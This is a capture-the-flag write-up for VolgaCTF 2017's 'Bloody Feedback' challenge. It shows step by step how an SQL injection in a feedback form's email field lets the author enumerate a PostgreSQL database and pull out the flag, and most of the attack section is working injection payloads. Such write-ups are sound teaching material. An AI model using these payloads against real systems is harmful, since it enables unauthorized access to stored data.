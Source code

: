 ```yaml
---
date: 2017-03-28
title: 'VolgaCTF - Bloody Feedback writeup'
template: post
slug: volgactf-bloody-feedback-writeup
categories:
 - CTF Writeup
tags:
 - CTF Writeup
---
```


```
Bloody Feedback

Send your feedback at bloody-feedback.quals.2017.volgactf.ru

DO. NOT. USE. SQLMAP
Otherwise your IP will be banned
```

The challenge basically has two functions, 1) Send feedback and 2) view the status of the sent feedback. There is also page that cotains "Top Messages" which is the feedback people send in. When you send feedback you get a token back which you can use to see if the feedback has been processed or not.

I first tried to steal cookies via the feedback form but it turned out that everything was filtered. My second try involved finding a SQL injection vulnerability at the feedback status page:

```
http://bloody-feedback.quals.2017.volgactf.ru/check/?code=<token here>
```

![not_processed](../images/not_processed.png)

I got nothing, the only thing I could deduce was that every feedback sent, had a default status of "not processed". I assumed this would change after a while but it never did.

My next attempt was to intercept the POST submission from the feedback form with burp to see if any parameters were vulnerable. By entering `lol'` as email, the following error was triggered:

```
<div class="container">
<div class="page-header">
<h2>Error</h2>
</div>
<div class="alert alert-danger">
	<p>ERROR: DBD::Pg::db do failed: ERROR:  syntax error at or near "not"
	LINE 1: ...HRkIBBUOq9M40ZqvsB1TcwWVWt','smacker','m','lol'','not proces...
	                                                 ^ at Worker.pm line 29.</p>
</div>
</div>
```

I realised that when you send your feedback, the program automatically inserts "not processed" along with the feedback. My working theory at ths point was to substitute the "not processed" field with an SQL query of my choosing. After a few tries I constructed the following query:

```
name=smacker&message=m&email=lol',(select version()))--
```

However I got an error message indicating that the field allows a maximum of 30 chars, so I simply added substring():

```
name=smacker&message=m&email=lol',(select substr(version(),0,30)))--
```

![not_processed](../images/postgres.png)

Now when I checked the status page of my feedback with the token I got, instead of seeing "not processed", I saw `PostgreSQL 9.5.6 on x86_64-pc`. Now I knew how to display my SQL queries on the site, by overwriting the "not processed" field.

So I tried a few other things:
```
user = fcgi_user         =>  name=smacker&message=m&email=lol',(select substr(user,0,30)))--
database = feedback_db   =>  name=smacker&message=m&email=lol',(select substr(current_database(),0,30)))--
```

Since the field can't hold multiple rows/values, I had to use LIMIT X OFFSET Y in order to step through each element in the set that the database returned. The following code snippets shows how I enumerated the database to find the flag.

**Databases:**
```
postgres => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 1))--
template1 => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 2))--
feedback_db => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 3))--
```

**TABLES:**
```
s3cret_tabl3 => name=smacker&message=m&email=lol',(select table_name FROM information_schema.tables WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
```

**COLUMNS:**
```
name =>  name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
email => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 2))--
message => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 3))--
status => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 4))--
id => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 5))--
s3cr3tc0lumn => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 6))--
```

**Time to get the rows from `s3cr3tc0lumn`**
```
VolgaCTF => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 1))--
Volga => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 2))--
1 => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 3))--
VolgaCTF{eiU7UJhyeu@ud3*} => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 4))--
```

![not_processed](../images/flag.png)

**Flag: VolgaCTF{eiU7UJhyeu@ud3\*}**

